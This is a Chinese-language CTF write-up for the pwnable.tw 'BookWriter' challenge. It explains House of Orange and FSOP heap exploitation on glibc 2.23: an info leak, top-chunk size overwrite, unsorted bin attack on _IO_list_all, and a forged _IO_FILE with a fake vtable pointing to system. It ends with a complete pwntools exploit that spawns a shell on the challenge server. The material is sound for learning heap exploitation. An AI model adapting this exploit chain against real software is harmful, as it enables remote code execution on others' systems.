




# Pwnable.tw之BookWriter
### 知识点
> &nbsp;&nbsp;&nbsp;&nbsp;`FSOP`是`FILE Stream Oriented Programming`的缩写, 进程内所有的`_IO_FILE`结构会使用`_chain`域相互连接成一个链表, 这个链表的头部由`_IO_list_all`维护.
> &nbsp;&nbsp;&nbsp;&nbsp;`FSOP`的核心思想就是劫持`_IO_list_all`的值来伪造链表和其中的`_IO_FILE`项, 但是单纯的伪造只是伪造了数据还需要某种方法进行触发.
> &nbsp;&nbsp;&nbsp;&nbsp; `topchunk size`小于申请大小, `top chunk` 加入`unsorted bin`中, 系统重新分配一块`top chunk`.
> &nbsp;&nbsp;&nbsp;&nbsp;首次加入`unsorted bin`的`chunk`块, 若再次使用此`chunk`, `glibc`会将其先加入对应`small　bin`中, 再从`small bin`取出使用, 剩余的加入到`unsorted bin`中.
> &nbsp;&nbsp;&nbsp;&nbsp;`unsorted_bin attack`: 前提是控制`Unsorted Bin chunk`的`bk`指针
### 程序运行
**0. Welcome**
```
Welcome to the BookWriter !
Author :Bill
```
**1. Menu**
```
1. Add a page        
2. View a page       
3. Edit a page       
4. Information       
5. Exit
```
**2. Add**
```
Your choice :1
Size of page :32
Content :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Done !
```
**3. View**
```
Your choice :2
Index of page :0
Page #0
Content :
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
**4. Edit**
```
Your choice :3
Index of page :0
Content:CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCa
Done !
```
**5. Information**
```
Your choice :4
Author : Bill
Page : 1
Do you want to change the author ? (yes:1 / no:0) n
```
### 程序分析
```
author: 0x602060
heap_address: 0x6020a0
number: 0x602040
size: 0x6020E0
```
*信息泄露*
>&nbsp;&nbsp; &nbsp;&nbsp;通过观察发现`author`和`head_address`相邻,输入`0x40`个字符即可将`NULL`填满, 使用`Information`打印`Author`,集合打印出`heap`的地址, 即所谓信息泄露.

*`top chunk modify`*
```python
add(0x18, "A"*0x18)
edit(0, "B"*0x18)
'''
由于'B'*0x18与top chunk相邻, strlen会将top chunk的长度也算进去,
总长度: 0x18 + 3, 3是0x020fe1的长度
'''
edit(0, "\x00"*0x18 + "\xe1" + "\x0f")
```
*长度错误*



### 过程介绍
**1. leak memory**
```python
#leak heap address
Welcome("A"*0x40)
Add(1, 0x18, "A"*0x18)
Edit(3, 0, "B"*0x18)
Edit(3, 0, "\x00"*0x18 + p32(0xfe1) + "\x00")
Information(4, 0, 1)

#leak libc address
Add(1, 0x1000, "\x00"*0x1000) #add top chunk to unsorted bin
for i in range(7):
  Add(1, 0x50, "A"*0x8)
View(2, 3)
```


**2. 伪造**

*解析:* 前面讲到有一个长度错误, 这个长度错误就是会将`index 0`的长度修改成一个地址, 这意味着我们可以输入很多的数据, 修改`top chunk`.
1. `Unosrted Bin Attack`: 修改`_IO_list_all`为`main_arena+0x58`
```c
//glibc 2.23 3515 lines
/*
*0x22872c0:	0x0068732f6e69622f	0x0000000000000061
*0x22872d0:	0x00007f844ef79b78(main_arena+0x58)	0x00007f844ef7a510(_IO_list_all - 0x10)
*/
unsorted_chunk (av)->bk = bck;
bck->fd = unsorted_chunks (av); //bck->fd = [0x7f844ef7a510+0x10] = 0x7f844ef79b78
```


2. 伪造`_IO_FILE`绕过一些检查:
```c
while (fp != NULL)
    {

      ......
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
	result = EOF;

      ......
    }
```
> - `fp->_mode > 0`
> - `fp->_IO_write_ptr > fp->_IO_write_base`
> - `fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base`
```python

data = "\x00"*0x2b0
payload ="/bin/sh\x00" + p64(0x61) + p64(libc_addr) + \
p64(_IO_list_all) + p64(2) + p64(3) # 3 > 2(fp->_IO_write_ptr > fp->_IO_write_base)
'''
由于我们伪造的_wide_data = 0, fp->_wide_data->_IO_write_ptr >
fp->_wide_data->_IO_write_base 相当于　fp->_IO_write_ptr > fp->_IO_write_base
'''
payload = payload.ljust(0xc0, "\x00")
payload += p64(0xffffffffffffffff) # _mode > 0
payload = payload.ljust(0xd8, "\x00")

vtable = heap_address + 0x2b0 + 0xd8 + 0x8
payload += p64(vtable)
```
3. `fake vtable`
```python
payload += p64(0) * 2 + p64(1) + p64(system) #__overflow在第四位个位置
```
**3. 触发**
```python
p.recvuntil('Your choice :')
p.sendline('1')
p.recvuntil('Size of page :')
p.sendline(str(0x10))
```
### 一个疑问
> 问题: 请问`fake FILE`是如何链入到进程中的?
>> 这就要用到上面提到的`0x61`, 这个可不是随便写的一个值.`_chain`是`_IO_FILE`第十四个字段, 而`0x61chunk`从`unsorted bin`进入`small bin`时, 正好将`0x61`写入这第十四个字段.


### The Whole EXP
```python
#!/usr/bin/env python
from pwn import *
import pwnlib

debug = 0
elf = ELF('./bookwriter')
if debug:
    p = process('./bookwriter', env={'LD_PRELOAD':'./libc_64.so.6'})
    libc = ELF("./libc_64.so.6")
    context.terminal = ['gnome-terminal','-x','sh','-c']
#    context.log_level = 'debug'
else:
    p = remote("chall.pwnable.tw", 10304)
    libc = ELF("./libc_64.so.6")

def add(num,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of page :')
    p.sendline(str(num))
    p.recvuntil('Content :')
    p.send(content)
def view(num):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index of page :')
    p.sendline(str(num))
def edit(num,content):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index of page :')
    p.sendline(str(num))
    p.recvuntil('Content:')
    p.send(content)
def info(num,content):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('(yes:1 / no:0) ')
    p.sendline(str(num))
    if(num):
        p.recvuntil('Author :')
        p.sendline(content)
    else:
        pass

def leak_heap():
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('a'*0x40)
    result = u64(p.recvline()[0:-1].ljust(8,'\0'))
    p.recvuntil('(yes:1 / no:0) ')
    p.sendline('0')
    return result

#part one
p.recvuntil('Author :')
p.sendline('a'*0x40)


add(0x18,'a'*0x18)   #the real chunk size is 0x20
edit(0,'a'*0x18)
edit(0,'\0'*0x18+'\xe1'+'\x0f'+'\0')
heap_addr = leak_heap()
print hex(heap_addr)
add(0x1000,'a'*0x100) #add top chunk to unsorted bin

for i in range(7):
    add(0x50,'a'*0x8)

#gdb.attach(p)
view(3)
p.recvuntil('aaaaaaaa')
libc_addr  = u64(p.recvline()[0:-1].ljust(8,'\0'))
libc.address = libc_addr - 0x3c3b78

print 'libc_base: ', hex(libc.address)
print 'libc_addr:', hex(libc_addr)
print 'system: ',hex(libc.symbols['system'])
print 'heap: ',hex(heap_addr)
print "_IO_list_all: " + hex(libc.symbols['_IO_list_all'])

data = '\0'*0x2b0
payload = '/bin/sh\0'+p64(0x61)+p64(libc_addr)+p64(libc.symbols['_IO_list_all']-0x10)+p64(2)+p64(3)
payload = payload.ljust(0xc0,'\x00')
payload += p64(0xffffffffffffffff)
payload = payload.ljust(0xd8,'\x00')
vtable = heap_addr + 0x2b0 + 0xd8 + 0x8
payload += p64(vtable)
payload +=p64(0)+p64(0)+p64(1)+p64(libc.symbols['system'])

edit(0,data + payload)
#
p.recvuntil('Your choice :')
p.sendline('1')
p.recvuntil('Size of page :')
p.sendline(str(0x10))
p.interactive()
```
### 特别提醒
> 在自己机器上试的同学, 除了将`libc`改成自己的外, 还要将泄露的地址与`libc_base`之间的偏移改为`0x3c4b78`
>> 本人环境: Ubuntu 16.04.4 LTS
### 参考链接
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80043934)
[CTF-WiKi](https://ctf-wiki.github.io/ctf-wiki/pwn/io_file/introduction/)
[wolfzhang](https://www.w0lfzhang.com/2016/11/19/File-Stream-Pointer-Overflow/)
[ret2forever](http://tacxingxing.com/2018/01/12/pwnabletw-bookwriter/)
[文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/how2heap/house_of_orange/bookwriter)
